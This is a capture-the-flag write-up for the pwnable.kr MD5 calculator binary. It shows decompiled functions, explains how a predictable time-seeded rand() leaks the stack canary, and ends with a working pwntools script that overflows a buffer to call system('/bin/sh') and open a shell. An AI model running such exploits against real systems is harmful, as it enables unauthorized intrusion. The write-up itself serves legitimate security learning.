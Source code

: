 # Pwnable.kr MD5 calculator CTF Writeup

## Problem Description

The code of the program is:

### my_hash

```c
08048ed8  int32_t my_hash()

08048edf      void* gsbase
08048edf      int32_t eax = *(gsbase + 0x14)
08048eed      void var_30
08048eed      void* var_38 = &var_30
08048eed      
08048f1a      for (int32_t i = 0; i s<= 7; i += 1)
08048f10          *((i << 2) + var_38) = rand()
08048f10      
08048f75      int32_t result = *(var_38 + 0x14) + *(var_38 + 4) + *(var_38 + 8) - *(var_38 + 0xc) + *(var_38 + 0x20) + *(var_38 + 0x1c) + *(var_38 + 0x10) - *(var_38 + 0x18)
08048f75      
08048f85      if (eax == *(gsbase + 0x14))
08048f91          return result
08048f91      
08048f87      __stack_chk_fail()
08048f87      noreturn
```

### process_hash

```c
08048f92  int32_t process_hash()

08048f9d      void* gsbase
08048f9d      int32_t eax = *(gsbase + 0x14)
08048fbe      void s
08048fbe      __builtin_memset(&s, c: 0, n: 0x200)
08048fc9      int32_t i
08048fc9      
08048fc9      do
08048fc1          i = getchar()
08048fc9      while (i != 0xa)
08048fde      __builtin_memset(s: 0x804b0e0, c: 0, n: 0x400)
08048ff8      fgets(buf: &_0x804b0e0, n: 0x400, fp: stdin)
08049013      __builtin_memset(&s, c: 0, n: 0x200)
08049044      int32_t eax_3 = calc_md5(&s, Base64Decode(0x804b0e0, &s))
08049061      printf(format: "MD5(data) : %s\n", eax_3)
0804906f      free(mem: eax_3)
08049077      int32_t result = eax ^ *(gsbase + 0x14)
08049077      
0804907e      if (result == 0)
0804908e          return result
0804908e      
08049080      __stack_chk_fail()
08049080      noreturn
```

### main

```c
0804908f  int32_t main(int32_t argc, char** argv, char** envp)

080490b8      setvbuf(fp: stdout, buf: nullptr, mode: 1, size: 0)
080490dd      setvbuf(fp: stdin, buf: nullptr, mode: 1, size: 0)
080490e9      puts(str: "- Welcome to the free MD5 calcul…")
080490fd      srand(x: time(nullptr))
08049102      int32_t eax_1 = my_hash()
0804911b      printf(format: "Are you human? input captcha : %…", eax_1)
08049130      int32_t var_18
08049130      __isoc99_scanf(format: &data_80492df, &var_18)
08049130      
0804913d      if (eax_1 != var_18)
08049146          puts(str: "wrong captcha!")
08049152          exit(status: 0)
08049152          noreturn
08049152      
0804915e      puts(str: "Welcome! you are authenticated.")
0804916a      puts(str: "Encode your data with BASE64 the…")
0804916f      process_hash()
0804917b      puts(str: "Thank you for using our service.")
08049187      system(line: "echo `date` >> log")
08049192      return 0
```

## Analysis

The program first using `srand` function to decleare a seed for the random function. the seed is the current time. This means that if we know the eaxct time the program ran, we can know all the random values in the program. after that the program calls `my_hash` function which genreate hash. It does that by creating an array of length 8 that countain random values (that we can predict). Than it calculate the hash like this: `result = vals[5] + vals[1] + vals[2] - vals[3] + vals[7] + vals[4] - vals[6] + var[8]`. As we can see, there is buffer overflow here, because `var[8]` is outside the array. So the hash countain some 4 byte value on the stack, which we can calculate and find. To find whats that value, we need to look in the disasmbley. In there we can see that the canary is set in these lines:
```asm
.text:08048EDF                 mov     eax, large gs:14h
.text:08048EE5                 mov     [ebp-0xc], eax
```
so the canary is located in `[ebp-0xc]`.

From your disassembly:
```asm
mov [ebp-0xc], eax          ; store the canary here
lea eax, [ebp-0x2c]         ; address of start of array
mov [ebp-0x34], eax         ; save base pointer
```

So we have:
[ebp-0x0c]	saved stack canary	
[ebp-0x2c]	start of local array (arr[0])	
[ebp-0x34]	a pointer variable that holds &arr[0]

so the array starts at `[ebp-0x2x]` which is ebp-44 and its size is 8 so its total size is 32 bytes, which means the arr[8] is in address ebp-12 (44-32=12) which in hex is `[ebp-0xc]`, and thats where the canary is saved.

## Exploit Code

```python
from pwn import *
import ctypes
import time

context.log_level = 'info'

libc = ctypes.CDLL("libc.so.6")
libc.srand.argtypes = (ctypes.c_uint,)
libc.rand.restype = ctypes.c_int

seed = int(time.time())
libc.srand(seed)

vals = [libc.rand() for _ in range(8)]

result = vals[5] + vals[1] + vals[2] - vals[3] + vals[7] + vals[4] - vals[6]
print("result:", result)

p = remote('localhost', 9002)

p.recvuntil(b'captcha : ')
captcha = int(p.recv().decode())
p.sendline(str(captcha))
print("captcha:", captcha)

canary = captcha - result
canary = canary & 0xffffffff
canary = p32(canary)
print("canary:", canary)

call_system_addr = p32(0x8049187)
print("call system address:", call_system_addr)

binsh_addr = p32(0x804B3AC)
print("/bin/sh address:", binsh_addr)

payload = b'A' * 512 + canary + b'A' * 12 + call_system_addr + binsh_addr
payload = b64e(payload).encode() + b'/bin/sh\0'

p.recvuntil(b'Encode your data with BASE64 then paste me!\n')
p.sendline(payload)
p.interactive()
```


